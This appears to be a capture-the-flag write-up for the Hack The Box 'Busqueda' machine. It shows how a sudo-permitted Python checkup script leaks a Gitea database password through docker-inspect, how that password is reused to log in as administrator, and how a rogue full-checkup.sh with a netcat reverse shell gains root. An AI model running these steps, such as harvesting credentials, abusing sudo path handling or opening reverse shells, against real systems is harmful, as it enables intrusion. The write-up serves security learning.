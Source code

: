 ```python
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```
Run the commands one-by-one and one you will need is `docker-inspect`, because it reads something that you will need to access the `admin` repository in `gitea.searcher.htb`. It will need certain type of commands because it is `docker`:
```python
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq
```
This will list bunch of text and you will need to search for `GITEA_database_` user and password:
```
   "Env": [
      "USER_UID=115",
      "USER_GID=121",
      "GITEA__database__DB_TYPE=mysql",
      "GITEA__database__HOST=db:3306",
      "GITEA__database__NAME=gitea",
      "GITEA__database__USER=gitea",
      "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "USER=git",
      "GITEA_CUSTOM=/data/gitea"
    ],
```
User ---- `gitea`
Password --- `yuiu1hoiu4i5ho1uh`
According to the information provided [here](https://docs.docker.com/config/formatting/), Docker leverages Go templates that enable users to modify the output format of specific commands. The website specifically mentions the usage of the `{{json .}}` formatting template, which renders all the information about the container in the `JSON` format. Thus, we can use `{{json .}}` as the format argument required by the docker-inspect argument of the script.
To read the `JSON` output conveniently, we can use `jq` to parse the `JSON` output into a readable format. `jq` can be installed using the following command, however, it is already present on the target machine.
Now go to `gitea.searcher.htb`and login as
Username ---> `administrator`
Password ---> `yuiu1hoiu4i5ho1uh`
and you will see the repository named `scripts`where is located scripts which you will need to use to get the root.
If you run the third `full-checkup`it access the running docker and get's the information from it. So if we change that file with some other file that will be in other directory that will have the code to execute `reverse-shell`for us to get connection, it's going to be solved.
To think logically code gives us three choices and all of them are scripts. `You can --ls-- the directory the full-checkup is named full-checkup.sh`.We have to create file named `full.checkup.sh`in other directory and give it the reverse shell.
```
$ echo -en "#! /bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_ip> <port> >/tmp/f" > /tmp/full-checkup.sh
```
So the file is in `/tmp`directory. Use `chmod +x`to make it executable. Then run it with the same code you ran it before but now you should be in the `/tmp`directory:
```python
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```
***
Don't forget to open `NetCat`on you port.
***
```bash
$ nc -nlvp 5555
listening on [any] 5555 ...
```